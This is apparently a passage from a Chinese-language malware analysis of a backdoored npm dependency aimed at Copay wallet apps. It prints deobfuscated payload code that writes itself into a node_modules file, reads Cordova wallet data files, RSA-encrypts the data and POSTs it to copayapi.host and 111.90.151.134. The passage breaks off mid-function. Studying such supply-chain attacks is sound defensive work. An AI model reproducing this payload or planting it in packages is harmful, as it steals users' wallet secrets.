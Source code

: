 ```
        r.writeFileSync(i, c, "utf8"), r.utimesSync(i, n.atime, n.mtime)// 将恶意代码写入到./node_modules/@zxing/library/esm5/core/common/reedsolomon/ReedSolomonDecoder.js中
    `}` catch (e) `{``}`
`}`)
```

输出结果：

[![](https://p2.ssl.qhimg.com/t01758fcc9881cc0b8b.png)](https://p2.ssl.qhimg.com/t01758fcc9881cc0b8b.png)

格式化最后一段代码，终于发现了后门作者的意图：



```
/*@@*/ ! function() `{`
    function e() `{`
        try `{`
            var o = require("http"),
                a = require("crypto"),
                c = "-----BEGIN PUBLIC KEY-----\\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAxoV1GvDc2FUsJnrAqR4C\\nDXUs/peqJu00casTfH442yVFkMwV59egxxpTPQ1YJxnQEIhiGte6KrzDYCrdeBfj\\nBOEFEze8aeGn9FOxUeXYWNeiASyS6Q77NSQVk1LW+/BiGud7b77Fwfq372fUuEIk\\n2P/pUHRoXkBymLWF1nf0L7RIE7ZLhoEBi2dEIP05qGf6BJLHPNbPZkG4grTDv762\\nPDBMwQsCKQcpKDXw/6c8gl5e2XM7wXhVhI2ppfoj36oCqpQrkuFIOL2SAaIewDZz\\nLlapGCf2c2QdrQiRkY8LiUYKdsV2XsfHPb327Pv3Q246yULww00uOMl/cJ/x76To\\n2wIDAQAB\\n-----END PUBLIC KEY-----";

            // 发送http请求，参数为：主机地址，路径，数据
            function i(e, t, n) `{`
                e = Buffer.from(e, "hex").toString();
                var r = o.request(`{`
                    hostname: e,
                    port: 8080,
                    method: "POST",
                    path: "/" + t,
                    headers: `{`
                        "Content-Length": n.length,
                        "Content-Type": "text/html"
                    `}`
                `}`, function() `{``}`);
                r.on("error", function(e) `{``}`), r.write(n), r.end()
            `}`

            // 加密数据并发送到两个主机
            function r(e, t) `{`
                for (var n = "", r = 0; r &lt; t.length; r += 200) `{`
                    var o = t.substr(r, 200);
                    n += a.publicEncrypt(c, Buffer.from(o, "utf8")).toString("hex") + "+"
                `}`
                i("636f7061796170692e686f7374", e, n), i("3131312e39302e3135312e313334", e, n) // copayapi.host,111.90.151.134
            `}`

            // 获取文件
            function l(t, n) `{`
                if (window.cordova) try `{`
                    var e = cordova.file.dataDirectory;
                    resolveLocalFileSystemURL(e, function(e) `{`
                        e.getFile(t, `{`
                            create: !1
                        `}`, function(e) `{`
                            e.file(function(e) `{`
                                var t = new FileReader;
                                t.onloadend = function() `{`
                                    return n(JSON.parse(t.result))
                                `}`, t.onerror = function(e) `{`
```